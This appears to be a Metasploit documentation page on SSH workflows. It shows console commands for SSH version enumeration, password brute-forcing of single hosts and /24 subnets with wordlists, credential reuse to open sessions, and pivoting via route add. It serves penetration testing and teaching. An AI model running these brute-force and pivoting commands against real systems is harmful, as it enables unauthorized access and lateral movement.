 ## SSH Workflows

### SSH Enumeration

Enumerate SSH version:

```
use auxiliary/scanner/ssh/ssh_version
run ssh://127.0.0.1
```

### SSH Bruteforce

Brute-force host with known user and password list:

```
use scanner/ssh/ssh_login
run ssh://known_user@192.168.222.1 threads=50 pass_file=./rockyou.txt
```

Brute-force credentials:

```
use scanner/ssh/ssh_login
run ssh://192.168.222.1 threads=50 user_file=./users.txt pass_file=./rockyou.txt
```

Brute-force credentials in a subnet:

```
use scanner/ssh/ssh_login
run cidr:/24:ssh://user:pass@192.168.222.0 threads=50
run cidr:/24:ssh://user@192.168.222.0 threads=50 pass_file=./rockyou.txt
```

### SSH Login

If you have valid SSH credentials the `ssh_login` module will open a Metasploit session for you:

```
use scanner/ssh/ssh_login
run ssh://user:pass@172.18.102.20
```

Re-using SSH credentials in a subnet:

```
use scanner/ssh/ssh_login
run cidr:/24:ssh://user:pass@192.168.222.0 threads=50
```

Using an alternative port:

```
use scanner/ssh/ssh_login
run ssh://user:pass@192.168.123.6:2222
```

### SSH Pivoting

Like Meterpreter, it is possible to [port forward through a Metasploit SSH session](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/ssh/ssh_login.md#session-capabilities):

```
route add 172.18.103.0/24 ssh_session_id
```

To a route for the most recently opened Meterpreter session:

```
route add 172.18.103.0/24 -1
```
